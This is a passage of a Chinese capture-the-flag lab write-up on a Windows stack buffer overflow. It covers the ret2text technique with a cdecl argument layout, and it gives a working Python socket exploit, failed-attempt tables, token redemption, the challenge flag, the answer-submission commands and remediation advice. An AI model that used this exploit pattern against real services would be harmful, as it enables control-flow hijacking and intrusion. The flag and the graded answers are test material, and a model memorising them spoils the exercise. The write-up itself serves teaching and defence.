| `A*132 + \x00` | 133 | `buf[133]` | `buf[132]` 也是 `\x00` ⇒ 返回地址变成 `0x00000000` ⇒ 崩溃、无输出（步骤 7） |
| `A*131` | 131 | `buf[131]` = saved EBP 最低字节 | 返回地址仍是 `0x4010C0`，但 EBP 被污染，`ret` 后调用方用坏 EBP ⇒ 崩溃、无输出 |

**结论一：写入位置按「缓冲区首址 → 返回地址首字节 = 132」算，不能按总长猜。** 偏移 132 由 `ebp-0x80` 与 saved EBP 的 4 字节唯一确定。反例是失败清单第 4 条 `128*'A' + p32(0x00401000)`：`0x401000` 落进了**保存的 EBP**（偏移 128–131），返回地址只是被终止 NUL 打了个低字节（`0x4010C0 → 0x401000`）——所以它也进了 `get_flag`，但参数同样不可控，回显仍是 `Wrong key: 0x0040130C`。

**结论二：5-1 的部分覆盖手法在 G2 拿不到凭证，根因是「参数不可控」。** 对照两条链：

```text
5-1（G1，get_flag 无参数）：
  写 68 字节 → 读入补的 NUL 落在偏移 68 = 返回地址最低字节 → 0x4010C0 变 0x401000
  → 直接命中 get_flag，函数不需要任何额外输入 → 拿到 token

5-2（G2，get_flag(int key) 要校验 [ebp+8] == 0xdeadbeef）：
  写 132 字节 → 同一个 NUL 机制把返回地址打成 0x401000 → 也能进 get_flag
  但「部分覆盖」只能改返回地址的 1 个字节，**没有任何办法把 0xdeadbeef 写进 [ESP+4]**
  → [ebp+8] 读到的永远是调用方栈残留：
      0x0040130C（A*132：参数槽未被触碰）
      0x00401300（NUL 恰好落在参数槽最低字节时，把该残留清成 ...00）
      0x00000001（假返回地址被写成 0x401000、二次进入时读到的另一处残留）
  → 只打印 Wrong key，永远走不到 call [0x416130] 取凭证那一步
```

这也解释了上表第 2 行那个容易误判的现象：`A*132 + p32(0x00401000)` 已经把返回地址**完整写对**了，回显却和纯 `A*132` 一模一样（`0x0040130C`）——因为两件事互相独立：**改对返回地址 ≠ 摆对参数**。只有当 NUL 落在参数槽之后（N=144）时，`[ESP+4]` 才轮到我们写的 `0xdeadbeef`。**四个字段（填充 / 函数地址 / 假返回地址 / 参数）缺一不可。**

### 9. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 只发 132 字节 `A*132` | `Wrong key: 0x0040130C`，**无凭证** | 读入结尾的 NUL 把返回地址低字节 `0xC0` 打成 `0x00`，控制流确实进了 `get_flag`，但 `[ebp+8]` 是垃圾 | 必须显式覆盖返回地址**并**布置参数 |
| 2 | `132*'A' + p32(0x41414141)` | 无输出、连接被关（约 3.6 s） | EIP 被覆盖成不可执行/非法地址，进程访问违例 | 目标地址必须落在可执行段（如 `0x401000`） |
| 3 | `132*'A' + 显式 \x00` | 无输出、连接被关 | `buf[132]` 是我们写的 `\x00`，读入函数又在 `buf[133]` 补终止 NUL ⇒ 返回地址四字节变成 `0x00000000`，直接崩；**根因仍是参数不可控**，不是地址打不中 | 放弃部分覆盖，改为完整 ret2text + 布置参数 |
| 4 | `128*'A' + p32(0x401000)`（怀疑偏移是 128） | `Wrong key: 0x0040130C`，无凭证 | 偏移写错 4 字节：`0x401000` 落进了**保存的 EBP**，返回地址只被终止 NUL 打了低字节（`0x4010C0→0x401000`），所以也进了 `get_flag`，但参数同样不可控 | 入口固定放**偏移 132** |
| 5 | `132 + p32(0x401000) + p32(0x401000)`（不给参数） | `Wrong key: 0x00401300` / `Wrong key: 0x00000001` | 假返回地址让 `get_flag` 二次进入，但 `[ebp+8]` 取到的是遗留代码地址 | 参数必须接在假返回地址之后（`[ESP+4]`） |
| 6 | `132 + p32(0x401000) + p32(0xdeadbeef)`（少写假返回地址） | `Wrong key: 0x00401300`，无凭证 | 参数落到了**假返回地址槽**（`[ESP]`），函数入口 `[ebp+8]` 少了 4 字节偏移 | 补齐假返回地址，四段布局缺一不可 |

### 10. 正式利用：ret2text + 布置 cdecl 参数（截图 02）

按 cdecl 布局把四段拼起来（本机无 pwntools，用 Python 标准库 `socket` + `struct`，脚本 `.local/process/5-2-scripts/exploit.py`）：

```python
GET_FLAG = 0x00401000          # 导出表 get_flag RVA 0x1000 + ImageBase 0x400000
FAKE_RET = 0x00401000          # 占住 get_flag 入口的 [ESP]（命中分支以 ExitProcess(0) 结束，此值不会被真正使用）
ARG      = 0xdeadbeef          # cmp dword ptr [ebp+0x8], 0xdeadbeef
OFFSET   = 132                 # 0x80 缓冲区 + 4 字节 saved EBP

payload = b"A"*OFFSET + struct.pack("<I", GET_FLAG) + struct.pack("<I", FAKE_RET) + struct.pack("<I", ARG)
```

```console
$ python3 exploit.py win
### 正式利用: 132 + p32(0x401000) + p32(假返回地址) + p32(0xdeadbeef)
payload len = 144
payload hex = 41414141...(省略)...0010400000104000efbeadde
--- banner ---
Data processor ready.
Input:
--- response (336 bytes) ---

[+] Token (valid 10 min, one-time):
1791882439.B49RIWRaun91tWZJOzOFyq8obiF94rpCaz3_J8mes4X2C8pdXhXzcZ5vfk85xgtPJtwFgK8QdwfCP7_q-onb9A

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1791882439.B49RIWRaun91tWZJOzOFyq8obiF94rpCaz3_J8mes4X2C8pdXhXzcZ5vfk85xgtPJtwFgK8QdwfCP7_q-onb9A"
```

payload 的 hex 尾部 `...0010400000104000efbeadde` 即
`p32(0x00401000) + p32(0x00401000) + p32(0xdeadbeef)`（全部小端）。对应的栈布局与 cdecl 语义逐格核对如下：

```text
偏移            长度  内容                作用
[0   .. 127]     128  b'A'*128            填满 vuln 的缓冲区 ebp-0x80
[128 .. 131]       4  b'A'*4              saved EBP（内容任意）
[132 .. 135]       4  p32(0x00401000)    覆盖 call vuln 的返回地址 ⇒ 入口进 get_flag
[136 .. 139]       4  p32(0x00401000)    假返回地址：占住 get_flag 入口的 [ESP]
[140 .. 143]       4  p32(0xdeadbeef)    get_flag 入口的 [ESP+4] = [ebp+8] ⇒ 命中

vuln 的 ret 弹出 [132..135] → EIP = 0x00401000，此时 ESP 指向 [136..139]
get_flag 入口：  [ESP]   = [136..139] = 假返回地址 0x00401000
                 [ESP+4] = [140..143] = 0xdeadbeef
push ebp; mov ebp,esp 之后（ebp = 入口 ESP - 4）：
                 [ebp+4] = 假返回地址（get_flag 自己的返回地址）
                 [ebp+8] = 0xdeadbeef   ← 与 cmp dword ptr [ebp+0x8],0xdeadbeef 对上 ✔
```

这就是 G2 的考点本身：**`vuln` 的 `ret` 之后，`[ESP]` 是「函数地址后面那一格」，必须留给假返回地址；参数只能放在再下一格 `[ESP+4]`。** 若像步骤 9 的第 5、6 条那样少写或错位，参数就进不了 `[ebp+8]`。

同一 payload 在探测与复现阶段被反复验证（四份脚本日志中共 **9 枚成功回显**，**每次返回一枚互不相同的新 token**，枚数明细见步骤 17）。下图为交互式会话的渲染稿，token 与 `logs/09-interactive-session.log` 逐字一致：

```console
$ python3 -   # 交互式会话，真实回显
>>> import socket, struct
>>> s = socket.create_connection(('172.17.84.102', 9999))
>>> s.recv(4096)
b'Data processor ready.\r\nInput: '
>>> payload = b'A'*132 + struct.pack('<I',0x401000) + struct.pack('<I',0x401000) + struct.pack('<I',0xdeadbeef)
>>> len(payload)
144
>>> s.sendall(payload + b'\n')
>>> s.recv(4096)   # 原始回显
[+] Token (valid 10 min, one-time):
1791882673.bSeyUXlgjHcTzM7MK3hN7J8IjFybFc_8Mo9FzP-1B4BojRph98pSlwLbMFqbNtUgsLHintoTleMiVpwXvfpklg
```

**为什么不需要 ROP 链**：DEP 的语义边界是「数据页不可执行」，它禁止的是「往栈上注入 shellcode 再跳过去」，并不禁止把控制流转移到 `.text` 中**已有的代码**；而 `DllCharacteristics` 没有 `DYNAMICBASE`，`get_flag` 的地址（`0x00401000`）在逆向阶段就是常量。因此「覆盖返回地址 + 摆好参数」一次 `ret2text` 即可——需要 ROP 拼装 gadget 的场景（库地址随机、目标不在程序自身代码里、参数多且需要连续调用）在本题都不存在。


### 11. 用一次性 token 兑换 flag（截图 04）

端口映射实测为 `13088→22`、`13093→80`，兑换服务在 **13093** 上。token 有效 10 分钟，拿到后立刻兑换：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13093/flag?token=1791882439.B49RIWRaun91tWZJOzOFyq8obiF94rpCaz3_J8mes4X2C8pdXhXzcZ5vfk85xgtPJtwFgK8QdwfCP7_q-onb9A"
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 09:07:28 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{vO8tTsKA21FiYUYU1RnxDAxLgjGjhWjD}
```

为了让结论更硬，**另起一次利用**拿到第二枚互不相同的一次性 token，再独立兑换一次：

```console
$ curl -sS --noproxy '*' -i "http://172.17.0.13:13093/flag?token=1791882673.bSeyUXlgjHcTzM7MK3hN7J8IjFybFc_8Mo9FzP-1B4BojRph98pSlwLbMFqbNtUgsLHintoTleMiVpwXvfpklg"
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 09:11:22 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{vO8tTsKA21FiYUYU1RnxDAxLgjGjhWjD}
```

两枚**互相独立**的 token 兑换到**同一个** flag ⇒ flag 与本题严格绑定，不是偶然命中或旧数据复用。`Content-Length: 38` = 37 字符 flag + 结尾换行。


### 12. 兑换服务的失败对照：重放 / 坏格式 / 缺参数（截图 05b）

兑换服务本身做了不止一层校验，逐一验证：

```console
$ curl -sS --noproxy '*' -i "http://172.17.0.13:13093/flag?token=1791882439.B49RI...onb9A"   # 17:07:28 刚兑换过的那枚，3 秒后再打一次
HTTP/1.1 403 Forbidden
Content-Length: 19
token already used

$ curl -sS --noproxy '*' -i "http://172.17.0.13:13093/flag?token=not-a-token"
HTTP/1.1 403 Forbidden
Content-Length: 36
invalid token: invalid token format

$ curl -sS --noproxy '*' -i "http://172.17.0.13:13093/flag"
HTTP/1.1 400 Bad Request
Content-Length: 14
missing token
```

三种失败对应三种判断：**格式校验**（不符合 `<时间戳>.<base64url>` 结构直接拒）、**使用状态校验**（一次性凭证用过即废）、**参数存在性校验**（缺 `token` 参数 400）。这说明凭证即使被抢到，也只能用一次，且在服务端留下使用记录。

> 时序核对：重放对照发生在 `2026-10-13 17:07:31`（`logs/04-token-controls.log`），此时只有第一枚 token（`1791882439...`，17:07 产出、17:07:28 兑换）存在，被重放的就是它——截图 05b 已与日志时序**一致**（该渲染稿首版曾误用第二枚 token 的命令行，已按日志改回第一枚并重新渲染；三条 HTTP 响应体自始未改动，与日志逐字相同）。


### 13. 提交答案与平台判分（截图 06a、06c）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6665' \
  -F 'answers={"questionID": 8799, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8801, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8803, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8805, "answer": "{\"answer\": [\"A\",\"C\",\"D\"], \"num\": 3}"}' \
  -F 'answers={"questionID": 8825, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{vO8tTsKA21FiYUYU1RnxDAxLgjGjhWjD}\"]}"}' \
  -F 'contestMode=0'
# 返回 code=0, msg=success；顶层 isCorrect:false、各条 scoreRate:0 属平台已知正常现象
```

提交时间 `2026-10-13T17:11:36+08:00`，5 条记录 `answerTimes` 均为 **1**（确为首次、也是唯一一次提交）。填空题的 `answer` 被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位补 `true`），与既往题目一致。

判分以 `GET /api/student/get/answerHistory?sectionID=6665&contestMode=0` 为准：

| order | questionID | 题号 | 题型 | 提交内容 | isCorrect |
| --- | --- | --- | --- | --- | --- |
| 1 | 8799 | C026-G2-S1 | 单选 | `{"answer":["B"],"num":1}` | true |
| 2 | 8801 | C026-G2-S2 | 单选 | `{"answer":["D"],"num":1}` | true |
| 3 | 8803 | C026-G2-S3 | 单选 | `{"answer":["A"],"num":1}` | true |
| 4 | 8805 | C026-G2-M | 多选 | `{"answer":["A","C","D"],"num":3}` | true |
| 5 | 8825 | C026-G2-F | Flag 填空 | `{"num":3,"answer":["","vmc{...}"]}`（中间位由平台规范化） | true |

**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，4 道选择题的所选选项高亮，第 5 题 flag 输入框内为最终 flag。




### 14. 实例与端口映射核对（截图 06b）

在「我的虚拟机」页面核对本题实例：`C026-G2-F` 一行，容器 `s-148741`、镜像 `t-11637/c026-g2-f:2026`、`端口映射 +2`、IP `172.17.0.13`、状态 running、过期时间 2026-10-13 20:05:38。同一页面还列着上一题 `C026-G1-F`（`s-148725`）与既有的 DVWA 实验环境，说明本次利用确实打在本章环境上，且两道题的容器互相独立。


### 15. 教学问答：cdecl 布局、部分覆盖的限制与加固（截图 07、10–15）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 6 个问题（每题新开会话，会话号 5466 / 5468 / 5469 / 5470 / 5471 / 5472，逐条间隔 ≥ 12 s；问答原文另存 `.local/process/5-2-qa-transcript.json`）。6 条回答长度 724–1055 字符，均自然收束、未被 1024-token 截断。

| # | 问题主题 | 回答要点 | 截图 |
| --- | --- | --- | --- |
| 1 | `__cdecl` 与 `__stdcall` 的参数传递与栈清理，及 ret2libc 链式调用为何要插 gadget | 入口栈布局与「谁清栈」的差别；cdecl 由 caller 用 `add esp,N` 清理，链式调用时上一个函数的参数残留在栈上，必须用 `add esp,4` / `pop` 之类 gadget 或填充校正 `ESP`，否则下一个函数地址对不齐 | 10 |
| 2 | ret2text 带参数：为什么 payload 是「填充 + 函数地址 + 假返回地址 + 参数」 | 逐段解释四部分的作用；函数 `ret` 后回到假返回地址继续执行，链的后续由假返回地址决定 | 11 |
| 3 | NUL 部分覆盖（`0xC0` → `0x00`）在需要精确控制参数时的限制 | 部分覆盖只能改地址低位、边界难控；本题里虽能进 `get_flag` 却仍打印 `Wrong key`，拿不到凭证 | 12 |
| 4 | DEP 开 + ASLR 关 + 有可直接调用的函数的加固与开启 ASLR 后的变化 | 安全编码、访问控制、混淆；开启 ASLR 后地址猜测、代码注入、堆喷射难度都上升 | 13 |
| 5 | Windows 与 Linux 栈溢出利用的差异（GS / SEH / SafeSEH / CFG / DEP）及检测排查关注点 | 栈保护、异常处理、控制流保护、DEP 的实现差异；检测看安全/应用/审计日志与内存特征，取证可用内存分析工具 | 14 |
| 6 | 生产环境 Windows 控制台程序被 ret2text 打穿后的应急排查 | 日志（系统/应用/网络）→ 崩溃转储与 `0xC0000005` 栈回溯（WinDbg）→ 加固清单（补丁、防火墙/IPS、DEP/ASLR、代码审查、最小权限、沙箱） | 15 |















> 口径说明（逐图核对时发现，以二进制实测与官方语义为准，仅供读者参考，不影响本题结论）：
>
> 1. 第 1 组回答把入口布局写成「`[ESP]` 指向当前函数的栈帧，而 `[ESP+4]` 指向**最后一个**参数」，并称 `__stdcall` 清栈「在某些编译器设置下可以被配置为由被调用者清理」——两处都不准确：函数入口处 `[ESP]` 是**返回地址**、`[ESP+4]` 是**第一个参数**（参数从右到左压栈，先压的最后一个参数在更高地址）；`ret N` 清栈是 `__stdcall` 的**定义性特征**，不是可选配置。本题 payload 正是按 `[ESP]`=假返回地址、`[ESP+4]`=参数摆成的；
> 2. 第 2 组回答把「填充」说成「用于覆盖栈上的返回地址」并只把假返回地址解释成「链的续接点」，没有点出它在本题里的**硬性作用**——占住 `[ESP]` 这一格、把参数顶到 `[ESP+4]`；另外它假设 `get_flag` 会 `ret` 回来，而实际命中分支是 `ExitProcess(0)`，不会返回；
> 3. 第 3 组回答的因果是错的：它写成「`get_flag` 地址被设为 `0x004010C0`、实际写入 `0x00401000` 导致跳转到无效地址」，把**调用点返回地址**与**函数地址**混为一谈（`0x401000` 恰恰是有效且正确的目标），也没说出真正原因（参数不可控），最后给出的方向「需要更精确地控制返回地址」与本题解法相反；
> 4. 第 4 组回答混用了平台：给 Windows PE 场景开 `-fstack-protector`（GCC/Clang 的选项），又把 LTO（链接时优化）说成「提高随机化程度」（Windows 上对应的是 `/DYNAMICBASE`，LTO 与随机化无关）；
> 5. 第 6 组回答写「已经提到 DEP 和 ASLR 已开启，确保它们的配置正确」——与本题实测**相反**：本题 ASLR 是关闭的（无 `DYNAMICBASE`），这恰恰是能直接写死 `0x00401000` 的前提。

### 16. 截图真实性与脱敏说明

`5-2/screenshots/` 共 15 张 PNG，按取证方式分三类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | banner `Data processor ready.\r\nInput: ` + 三条失败对照（132 字节 / `0x41414141` / NUL 部分覆盖） | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02` | 交互式会话：payload 长度 144 → `[+] Token (valid 10 min, one-time)` | 同上（真实会话回显的渲染稿） |
| `03` | MD5、`DllCharacteristics 0x8100`、导出表、`get_flag`/`vuln` 反汇编、调用点 `0x4010C0`、偏移 132 与 payload 布局 | 同上（真实 `objdump` 回显的渲染稿） |
| `04` | 两枚独立 token 各兑换一次：`HTTP/1.1 200 OK` + `vmc{...}` | 同上（真实 HTTP 回显的渲染稿，数据源 `logs/03-flag-redeem.log`、`logs/10-flag-redeem-2.log`） |
| `05b` | `token already used` / `invalid token: invalid token format` / `missing token` | 同上（真实 HTTP 回显的渲染稿） |
| `06a` | VMC 作答页：5 题全部「作答正确」、选项高亮、flag 已填 | **真实页面截图**（无头 Chrome 登录态；顶栏右上角账号昵称已局部涂白并标注「账号已脱敏」） |
| `06b` | VMC「我的虚拟机」：`C026-G2-F`（`s-148741`）端口映射 +2、IP、running、过期时间 | **真实页面截图**（同上，顶栏账号昵称已涂白标注） |
| `06c` | `answerHistory` 原始 JSON：5 条 `isCorrect: true` | **渲染稿**（数据源是 curl 直取的**真实 JSON 返回**，已整体剔除 `currentUser` 个人信息字段） |
| `07` | 教学问答历史列表：本题 6 条提问与所属会话 | **真实页面截图**（右上角账号胶囊已局部涂白并标注「账号已脱敏」） |
| `10`–`15` | 6 组问答的完整问答内容 | **渲染稿**（数据源为平台 `/api/chat/history` 的**真实 JSON 返回**，页面内已标注） |

脱敏与合规（仓库为公开仓库）：

- **pwn 靶机 `172.17.84.102:9999` 不是 HTTP 服务**，本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`），因此所有终端类画面（`01`–`05b`）都是「真实命令回显 + 等宽排版」的渲染稿，**图内顶部、图注、正文三处都做了明确标注**，未冒充终端实拍；
- `06a` / `06b` 的顶栏脱敏：两张图为登录态下的 VMC 真实页面，顶栏最右侧原本直接渲染了平台账号昵称（首版截图未处理）。处理方式：先按像素聚类定位顶栏右侧的文字/图标簇，取其中最右一簇（device px 白色文字簇 `x=2544-2611, y=69-100`，两图完全一致），只涂白 `(2505,45)-(2700,125)` 一个矩形，填充实测顶栏背景色 `rgb(114,177,239)` 并写「账号已脱敏」，左侧三个图标（`x≤2499`）未触碰；脚本 `.local/process/5-2-scripts/mask_vmc_header.py`（`--check` 干跑 / `--apply` 写入），判据为该矩形内与背景色差异明显的像素数 `1263 → 931`（剩余为标注文字），可追溯、可回退（重新用 `vmc_shots2.mjs` 从平台截图即可）；
- `07` 的脱敏同样只改一个矩形：账号文本实测 CSS 盒 `(x=910.05, y=25, w=169.55, h=26.48)`，按 `deviceScaleFactor=2` 换算为 device px `(1812,42)-(2166,110)`，重绘为该页 header 背景色 `rgb(255,252,247)` 并标注「账号已脱敏」；脚本 `.local/process/5-2-scripts/mask_account.py`（`--check` 干跑 / `--apply` 写入），ink 判据 `3088 → 816`，其余像素未改动；
- `06c` 的脱敏是**整字段剔除**：渲染前把响应 JSON 里的 `currentUser`（含账号、姓名、学号、`lastIP` 等）整体删掉，并在页内以 `_note` 说明；图内不含任何个人标识；
- 渲染源 HTML 共 13 个（`01`–`06c`、`09`、`10`–`15`；其中 `09-AI问答-六组问答总览.html` 未作为最终 PNG 引用）保留在 `.local/process/5-2-scripts/render/`（不入库），便于复核与复现；`5-2/screenshots/` 下只放最终 15 张 PNG；
- 本文不记录平台口令、cookie、昵称、学号、`lastIP` 等任何个人信息。

### 17. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.84.102:9999` | **无文件落地** | 纯网络 payload，未上传文件、未写磁盘、未留后门；每次连接由服务端起新进程，命中分支调用 `ExitProcess(0)`、崩溃分支自然回收 |
| 一次性 token | 探测与复现阶段共取得 **9 枚**（`02-exploit-win` 1、`07-repro-matrix` 3、`08-read-semantics` 4、`09-interactive-session` 1，**各枚互不相同**），其中 **2 枚用于兑换**（均成功、结果一致），1 枚（第一枚）另做了重放对照（403 `token already used`），其余未使用 | 符合「一次性凭证」设计；兑换服务无残留有效状态 |
| 本机 | `5-2/screenshots/`（15 张 PNG，无其它文件）、`.local/process/5-2-scripts/`（`exploit.py`、`probe_layout.py`、`probe_read.py`、`evidence.py`、`submit.sh`、`ask_qa.py`、`mask_account.py`、`mask_vmc_header.py`、`files/challenge.exe`、`render/` 13 个渲染源 HTML、`logs/` 原始日志） | `.local/` 与 `/tmp/shot/` 均不入库 |
| 实例 | envID `1159` 交付时仍在 `Running`（`C026-G2-F` 过期时间 2026-10-13 20:05:38），未销毁 | 如需善后可在平台停止该实例 |

## Flag

```text
vmc{vO8tTsKA21FiYUYU1RnxDAxLgjGjhWjD}
```

两枚互相独立的一次性 token 兑换结果**逐字一致**，且与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 8825）判定为正确的提交值相同；兑换响应 `Content-Length: 38` = 37 字符 flag + 结尾换行。

## 总结与心得

### 漏洞原理

1. **根因仍是「无长度检查的读取 + 可写的返回地址」**：`vuln` 用长度参数为 `-1` 的读入函数往 `ebp-0x80` 的 128 字节缓冲区写数据，不校验长度；`vuln` 自身又没有 `/GS` 栈 Cookie，于是「缓冲区首址 → 返回地址」的 `0x80 + 4 = 132` 字节一旦写满，控制流即可改写。这是 CWE-121（栈缓冲区溢出）。
2. **DEP 只拦「执行数据页」，不拦「跳到已有代码」**：`NX_COMPAT` 让栈、堆不可执行，注入 shellcode 的路被堵死；但 `get_flag` 位于 `.text`（`0x401000`，可执行页），覆盖返回地址直接跳过去不违反 DEP——这就是 ret2text，也是 ret2libc / ROP 的共同基础。
3. **ASLR 关闭让攻击退化成静态地址覆盖**：`DllCharacteristics` 没有 `DYNAMICBASE`，加载基址恒为 `0x400000`，`get_flag` 地址在逆向阶段就能写死。若这一位开着，相同漏洞还需先泄露基址，或退回部分覆盖 + 猜页内偏移。
4. **本题的核心考点：ret2text 是「带参数」的**——cdecl 语义决定了 payload 的四段式布局。`call` 会把返回地址压栈，所以函数入口处 `[ESP]` 是返回地址、`[ESP+4]` 才是第 1 个参数；我们要「像调用一个函数一样」调用 `get_flag`，就必须自己在 `[ESP]` 位置放一个假返回地址，把 `0xdeadbeef` 顶到 `[ESP+4]`。函数序言 `push ebp; mov ebp,esp` 之后 `ebp = 入口 ESP - 4`，于是 `[ebp+8] = 入口 [ESP+4]`，正好对上 `cmp dword ptr [ebp+0x8],0xdeadbeef`。
5. **`__cdecl` 与 `__stdcall` 的差别会直接改变 ROP 链的形状**：两者都从右到左压栈，区别在**谁清栈**——cdecl 由调用者（caller）在返回后用 `add esp,N` 清理，stdcall 由被调用者在 `ret N` 里顺手清掉。手工拼链时没人替我们执行 caller 的 `add esp,N`，所以 cdecl 函数返回后参数会**残留在栈上**，必须自己插 `add esp,4` / `pop` 之类的 gadget（或按需填充）把 `ESP` 校正到下一个目标函数地址，否则链整体错位。本题只调用一个函数，且命中分支 `ExitProcess(0)` 直接结束进程，所以不需要 gadget——但换到「连续调用多个带参 cdecl 函数」的场景就必须补上。
6. **「拿到凭证」与「拿到 flag」是两段权限**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在校验 token 的**格式**与**使用状态**后才给出。这种设计把「能控制靶机进程」与「能读最终 flag」隔开，并让每次利用都在服务端留下使用记录。

### 做题方法

- **先钉死「保护开关 + 偏移 + 目标签名」，再动手发包**：`objdump -p` 看 `DllCharacteristics`（DEP/ASLR）、导出表拿 `get_flag`/`vuln` 的地址；`objdump -d` 看 `sub esp,0x80`、`lea eax,[ebp-0x80]` 确认缓冲区 128 字节，看调用点 `0x4010bb` 的下一条指令确认返回地址 `0x4010C0`，再独立算出偏移 `0x80 + 4 = 132`。本题所有后续动作都建立在这几个数字和标志上。
- **读目标函数的「签名」，别只看它的地址**：G1 的 `get_flag()` 无参数，跳过去就完事；G2 的 `get_flag(int key)` 第一件事就是 `cmp dword ptr [ebp+0x8],0xdeadbeef`。**先看函数要不要参数、参数放在哪一格**，再决定 payload 是 4 段还是 3 段——这一步不做，就会像步骤 9 的第 5、6 条那样反复打印 `Wrong key` 却找不到原因。
- **服务不回显时，靠「结果性输出」做对照实验**：本题不回显输入，看不到自己发了什么，但 `Wrong key: 0x%08X` 会把 `get_flag` 实际读到的参数**原样打印出来**——这等于给了我们一个「参数到底落在哪一格」的探针。正是靠 `0x0040130C` / `0x00401300` / `0x00000001` 这几个值，才把「缺参数」「缺假返回地址」「入口偏移错 4 字节」三种失败区分开。
- **版本对比要落到证据上**：本题与 5-1 只差一位（G1/G2），但 banner、`vuln` 地址、`get_flag` 是否带参数全都变了。5-1 那条「只发 132 字节靠 NUL 部分覆盖拿凭证」的经验在 G2 上直接失效——**经验可以复用，结论必须重测**。
- **没有 pwntools 也能完成**：Python 标准库 `socket` + `struct.pack("<I", ...)` 足以构造 payload、`select` 轮询足够处理「读到静默即停」的回显读取；本机缺工具不该成为跳过验证的理由。
- **一次成功不算成功，两枚独立 token 才算**：兑换环节特意用两枚互相独立的一次性 token 各兑一次，结果逐字一致，排除了「偶然命中/旧数据」的可能；重放、坏格式、缺参数三条对照则反过来证明凭证的一次性。
- **平台提交的两个格式约束**：`answers` 字段必须外层包 `{"questionID":...,"answer":"<内层 JSON>"}`，`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3）；判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。
- **对模型回答保持复核**：本题问答里 `[ESP]`/`[ESP+4]` 的含义、`__stdcall` 清栈是否可选、部分覆盖失败的原因、PE 与 ELF 的加固选项混用等多个点与实测/官方语义不符（步骤 15 口径说明），说明教学问答适合梳理思路，**结论必须回到二进制与实测上验证**。

### 修复建议

- **代码级：不要再用无界读取**。把长度参数为 `-1` 的读入换成带长度上限的实现（`fgets(buf, sizeof buf, stdin)` 或「读取 + 截断 + 校验」），并逐一检查所有把外部数据写进定长缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。本题的触发点就是「网络数据 → 128 字节栈缓冲区」这条直通路径。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——`vuln` 没有，是返回地址能被直接覆盖的前提；
  - `/NXCOMPAT`（DEP）+ **`/DYNAMICBASE`（ASLR）**——本题只有前者；补上 ASLR 后 `0x00401000` 这类静态地址即失效，攻击至少要先做信息泄露；
  - `/SAFESEH`（SafeSEH）、`/guard:cf`（CFG，控制流完整性）——约束异常处理链与间接跳转目标，提高「覆盖返回地址/函数指针」的难度；三者相互独立，可按缺口分别开启。
- **不要把敏感逻辑做成「导出函数」**：`get_flag` 既是导出符号、又靠一个容易猜测的常量（`0xdeadbeef`）做校验，等于把「入口地址 + 口令」一起交给攻击者。校验密钥应保存在配置/密钥管理里并做权限校验，凭证下发更应限定调用来源与身份，而不是仅凭一个栈上的整型参数。
- **运行期与架构层**：开启系统级 DEP/ASLR；服务以最小权限账户、低完整性级别运行；对只接受内网数据的端口做来源限制与流量审计。
- **把「拿不到 flag」当作最后一道边界**：本题的兑换服务做了 token 格式校验、10 分钟有效期与一次性使用检查，是可借鉴的设计——高价值资产与暴露面分层，凭据短期化、单次化，并在服务端记录使用情况以便事后审计。
- **检测与应急排查要点**（对应教学问答第 5、6 组）：服务进程异常退出且异常码为 `0xC0000005`（访问违例）、崩溃转储里返回地址指向进程内**未被正常调用**的函数（如本题的 `get_flag`）、`Wrong key: 0x...` 这类异常输出在短时间内密集出现、一次性凭证在极短时间内被兑换等，都是此类控制流劫持的典型痕迹。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯、核对 EDR 遥测中的线程起始地址与调用栈、排查同主机同类服务的版本与补丁；修复则回到「有界读取 + `/GS` + `/DYNAMICBASE` + 最小权限」这条主线。

原始过程记录：`.local/process/5-2-ctf-process.md`；教学问答原文：`.local/process/5-2-qa-transcript.json`；复现脚本与全部证据日志：`.local/process/5-2-scripts/`（`exploit.py` 四个用例、`probe_layout.py` / `probe_read.py` 边界实验、`evidence.py` 取证、`submit.sh` 提交与判分复核、`ask_qa.py` 顺序提问、`mask_account.py` 截图脱敏、`logs/` 原始输出）。
